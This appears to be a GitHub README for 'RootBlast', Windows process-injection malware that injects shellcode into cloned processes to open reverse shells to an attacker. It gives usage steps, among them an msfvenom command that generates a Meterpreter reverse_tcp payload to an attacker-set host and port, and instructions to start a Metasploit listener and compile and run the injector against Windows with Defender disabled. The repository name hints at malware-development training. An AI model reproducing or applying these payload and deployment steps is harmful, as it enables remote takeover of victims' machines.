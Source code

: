 # RootBlast

Process injection malware that clones windows processes, injects them with shellcode and executes them to attempt numerous reverse shells on the attacker. (Made with 🤎 for Windows users)

## Usage
+ Clone the repo
```
git clone https://github.com/spirizeon/rootblast
```
+ Generate shellcode through msfvenom 
```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP adress> LPORT=443 -f c --var-name=shellcode
```
+ Replace shellcode with that in `exploit.c`

+ Start the listener on the Attacker machine (Run msfconsole as sudo)

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/a78fc663-07fa-48c1-a65e-e68db3c4d29c)

+ Compile the code (MSVC compiler recommended) and execute

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/9a44d8ad-cf9e-435e-af46-a74f270057a9)

## Tech Stack

**Attacker** Kali Linux/ParrotOS VMs, metasploit-framework

**Target:** Windows 7/10/11 (with Windows defender turned off)

